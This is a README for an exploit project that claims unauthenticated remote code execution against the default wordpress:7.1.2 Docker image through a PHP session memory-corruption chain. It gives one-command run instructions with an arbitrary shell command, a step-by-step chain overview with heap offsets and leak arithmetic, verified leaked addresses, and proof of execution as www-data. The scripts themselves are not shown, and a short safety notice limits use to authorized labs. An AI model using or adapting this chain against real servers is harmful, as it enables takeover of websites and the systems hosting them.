

# php2shell WordPress RCE

External HTTP-only RCE against the default official Docker Hub
`wordpress:7.1.2` image (PHP 8.3.35 / Apache 2.4.68 / mod_php prefork).

Image digest:
`sha256:e04cf657f24889e96b5544828cdd5a92a0b51819f3e1899183f9be6ea0485edf`.

The target is a fresh container with image defaults: no custom `php.ini`, no
WordPress plugin or authentication, no extra environment variables, volumes,
capabilities, or privileged mode. All target interaction is HTTP.

## Result

Verified command execution as the web user:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



*Default-container demo: worker pin, address leak, R1/R2, and the webroot proof.*

Addresses are obtained entirely over HTTP through a 4 KiB `Set-Cookie`
out-of-bounds read; the chain then installs a fake PHP session serializer and
calls `zif_system`.

## Layout

```text
README.md                  project overview
REPORT.md                  full implementation and verification report
SECURITY.md                authorized-use and disclosure notice
demo.sh                    one-command PoC runner
assets/demo.gif            demo recording embedded below
exploit/transport.py       HTTP and multipart transport
exploit/profiles.py        A/B request profiles and leak parser
exploit/arm.py             arm producer and trigger
exploit/stage_rce.py       session-file producers, R1, and R2
exploit/run_ext.py         end-to-end orchestration
exploit/pin_slow_pause.py  149-worker pin
```

## Quick start

Requirements: Docker, Python 3, and network access from the client to the
target HTTP port. The exploit itself uses only the Python standard library.

```bash
docker run -d --name php2shell-target -p 18100:80 \
  wordpress:7.1.2

cd exploit
python3 run_ext.py --port 18100 --shell 'id>/var/www/html/pwn.txt'
curl http://127.0.0.1:18100/pwn.txt
```

`run_ext.py` starts the 149-connection worker pin itself, performs the leak,
arms the worker, installs the fake serializer, executes the command, and fetches
the proof. It does not call Docker, gdb, or `/proc`.

## Chain overview

1. Pin 149 of 150 prefork workers with unfinished chunked POSTs; one free
   worker remains.
2. A request OOMs in `php_session_reset_id` / `php_url_encode`, leaving stale
   `PS(id)` and `PS(send_cookie)` state.
3. A second request reclaims the session-id string with a forged
   `zend_string` of length `0x1000`; `Set-Cookie` returns 4096 bytes of heap.
4. `raw[0x6c8] - 0x50ddbf` gives the libphp base; the dominant 2 MiB pointer
   cluster gives the ZendMM chunk; `H = chunk + 0x6a000`.
5. A 30 MiB filename session file and a fake `php_unserialize_data` spray
   install `PS(serializer) = H + 0x310`.
6. A 16 KiB fake `zend_execute_data` session file causes
   `php_session_decode()` to call `zif_system` with the command string.

Detailed request shapes, offsets, and failure modes are in [REPORT.md](REPORT.md).

## Verified runs

| Run | Access | libphp base | chunk | H |
|---|---|---|---|---|
| `run-1` | published port 18099 | `0x751c8b681000` | `0x751c89a00000` | `0x751c89a6a000` |
| `run-2` | published port 18100 | `0x78cde6d86000` | `0x78cde5000000` | `0x78cde506a000` |
| `default` | no published port, external tunnel | `0x73e6330d7000` | `0x73e631400000` | `0x73e63146a000` |

## Limitations

- Offsets are calibrated for `wordpress:7.1.2` with PHP 8.3.35 / Apache
  2.4.68. Other PHP builds or images need re-calibration.
- The worker pin assumes the default `MaxRequestWorkers=150`.
- The leak and arm stages are probabilistic; `run_ext.py` retries the leak and
  rotates the worker before arming.
- If `H + 0x400` contains a `0x7c` byte, the PHP session key rejects it as a
  `|` delimiter; start a fresh container.

## Safety

This project contains a working exploit for an authorized laboratory
environment. Do not use it against systems without explicit permission. See
[SECURITY.md](SECURITY.md).
